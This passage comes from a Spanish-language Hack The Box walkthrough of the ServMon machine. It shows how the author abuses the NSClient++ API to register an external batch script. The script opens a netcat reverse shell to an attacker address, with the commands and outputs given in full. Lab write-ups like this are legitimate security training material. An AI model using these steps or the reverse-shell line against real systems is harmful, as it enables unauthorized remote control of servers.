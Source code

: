```shell
C:\Temp\lexsaaaa.bat
```

Lo agregamos como un external script :

```shell
nadine@SERVMON C:\Program Files\NSClient++>powershell -c "curl.exe -k -u admin -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/lexsaaaa.bat --data-binary C:\Users\Nadine\Downloads\lexsaaaa.bat"
Enter host password for user 'admin':
Added lexsaaaa as scripts\lexsaaaa.bat
```

Verificamos que se haya agregado:

```shell
nadine@SERVMON C:\Program Files\NSClient++>powershell -c "curl.exe -k -u admin https://127.0.0.1:8443/api/v1/scripts/ext"     
Enter host password for user 'admin':
["lexsaaaa"]
```

Verificamos en la ruta de ejecución

```shell
nadine@SERVMON C:\Program Files\NSClient++>powershell -c "curl.exe -k -u admin https://127.0.0.1:8443/api/v1/scripts/ext/lexsaaaa"
Enter host password for user 'admin':
scripts\lexsaaaa.bat
```

Verificamos en el archivo de configuración nsclient.ini y vemos que si aparece:

```
[/settings/external scripts/scripts]

; Undocumented key
lexsaaaa = scripts\lexsaaaa.bat
```

Verificamos que el contenido del external script lexsaaaa.bat este correcto:

```shell
nadine@SERVMON C:\Program Files\NSClient++>cd scripts

nadine@SERVMON C:\Program Files\NSClient++\scripts>type lexsaaaa.bat
C:\Temp\lexsaaaa.bat
```

Ahora, como ya establecimos lo que queremos ejecutar, ahora debemos crearlo  y descargarlo en el servidor en la misma ruta que establecimos en el external script. Lo que yo haré será un reverse shell con netcat por lo que tambien necesitaré descargarlo en esa ruta.

El bat seria el siguiente:

```bash
root@kali:~/HTB/servmon# cat lexsaaaa.bat 
@echo off
C:\Temp\nc.exe  10.10.14.27 4466 -e cmd.exe
```
